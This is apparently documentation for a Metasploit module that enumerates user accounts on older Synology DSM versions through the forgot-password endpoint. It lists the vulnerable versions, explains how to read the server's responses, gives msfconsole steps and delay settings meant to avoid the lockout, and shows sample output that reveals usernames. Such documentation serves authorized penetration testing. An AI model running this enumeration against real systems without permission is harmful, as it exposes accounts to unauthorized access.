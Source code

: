 ## Vulnerable Application

This module attempts to enumerate users on the Synology NAS by sending GET requests
for the forgot password URL. The Synology NAS will respond differently if a user is
present or not. These count as login attempts, and the default is 10 logins in 5min to
get a permanent block.  Set delay accordingly to avoid this, as default is permanent.

Vulnerable DSMs are:
 * DSM 6.1 < 6.1.3-15152
 * DSM 6.0 < 6.0.3-8754-4
 * DSM 5.2 < 5.2-5967-04

Enumeration is case insensitive.

To turn off Auto Block: Control Panel (Advanced Mode) > Security > Auto Block.

To unblock: Control Panel (Advanced Mode) > Security > Auto Block > Allow/Block List > Block List.

### Responses

The server responds with a JSON object and a 'msg' key.  The values translate as:

 * msg 1 - means user can login to GUI
 * msg 2 - means user exists but no GUI login
 * msg 3 - means feature disabled, or patched
 * msg 4 - means no user
 * msg 5 - means auto block is enabled and youre blocked. Default is 10 login attempts, and these

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/synology_forget_passwd_user_enum```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set delay [seconds]```
  6. You should hopefully find some usernames

## Options

### Delay

The delay in seconds between enumeration attempts.  Default lockout policy is 10 attempts in 5min,
so this should avoid the lockout.  Default is `36`.

### USER_LIST

The username list to use, defaults to `data/wordlists/unix_users.txt`

## Scenarios

### DS412+ with DSM 5.2-5644 with auto block turned off

  ```
  [*] Processing syn_login.rb for ERB directives.
  resource (syn_login.rb)> use auxiliary/scanner/http/synology_forget_passwd_user_enum
  resource (syn_login.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (syn_login.rb)> set delay 0
  delay => 0
  resource (syn_login.rb)> run
  [+] admin - admin group
  [+] avahi - no mail or no priviege
  [+] ftp - no mail or no priviege
  [+] guest - no mail or no priviege
  [+] lp - no mail or no priviege
  [+] mysql - no mail or no priviege
  [+] nobody - no mail or no priviege
  [+] ntp - no mail or no priviege
  [+] postfix - no mail or no priviege
  [+] postgres - no mail or no priviege
  [+] root - no mail or no priviege
  [+] ROOT - no mail or no priviege
  [+] http://2.2.2.2:5000/ - Users found: ROOT, admin, avahi, ftp, guest, lp, mysql, nobody, ntp, postfix, postgres, root
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
